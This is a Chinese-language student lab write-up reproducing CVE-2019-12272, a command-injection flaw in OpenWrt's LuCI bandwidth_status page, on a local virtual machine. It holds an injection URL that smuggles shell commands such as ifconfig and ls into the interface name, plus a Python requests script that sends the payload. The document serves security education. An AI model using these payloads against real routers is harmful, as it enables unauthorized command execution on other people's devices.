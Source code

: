 # 第四章 CVE-2019-12272漏洞复现

## 实验内容

- [x] 手工漏洞复现
- [x] 漏洞利用
- [ ] 编写代码实现自动化利用

### 环境搭建
- 镜像文件转换
![img](img/openwrt镜像转换过程.png)
- 按照实验要求配置主机网络接口`VirtualBox Host-Only Ethernet Adapter #3`
![img](img/配置host-only网络的网段.png)
![img](img/配置host-only网络的网段2.png)

- openwrt-cve的ip地址
![img](img/openwrt-cve的ip地址.png)

- 安装 LuCI 软件包，在浏览器页面访问`192.168.56.31`


### 手工复现漏洞

- 先使用管理员账号登录 LuCI
![img](img/安装luci软件包.png)

- 使用浏览器访问`http://192.168.56.31/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)`
- 页面没有返回json信息，重新输入访问漏洞的命令，在`;stok=……`字段后加`admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)`，成功触发漏洞
![img](img/触发漏洞.png)

- 获取上一步命令的执行结果[注入命令为ifconfig]
![img](img/查看注入命令ifconfig的执行结果.png)

- openwrt上出现cmd.txt文件
![img](img/openwrt上出现cmd.txt文件.png)

- 修改注入命令
![img](img/查看注入命令id的执行结果.png)
![img](img/查看注入命令ls的执行结果.png)
![img](img/查看注入命令uname%20-a的执行结果.png)

### 漏洞利用

![img](img/将漏洞复现请求复制为%20curl%20命令.png)
通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 curl 命令 ，然后通过第三方网站 将 curl 命令转换为 Python requests 代码 ，再稍加改动添加继续访问 /cmd.txt 并打印服务器响应，得到示例如下：
```
import requests

cookies = {
    'sysauth': 'bf9270e2cf541265a1a9c747ee853fa2',
}

headers = {
    'Proxy-Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

response = requests.get('http://192.168.56.31/cgi-bin/luci/;stok=f459c25cb6456f09cacdc2b6686ae419/admin/status/realtime/bandwidth_status/eth0%5E$(ls%5E%%5E3Ecmd.txt)', headers=headers, cookies=cookies, verify=False)
```
![img](img/通过第三方网站%20将%20curl%20命令转换为%20Python%20requests%20代码.png)

### 遇到的问题
- 需要自己手动在主机设置接口，实现网段在192.168.56.3
- ssh无法连接时要试试主机和虚拟机能否ping通

### 参考资料

- [课本](https://c4pr1c3.github.io/cuc-mis/chap0x04/exp.html)

- [课程教学视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)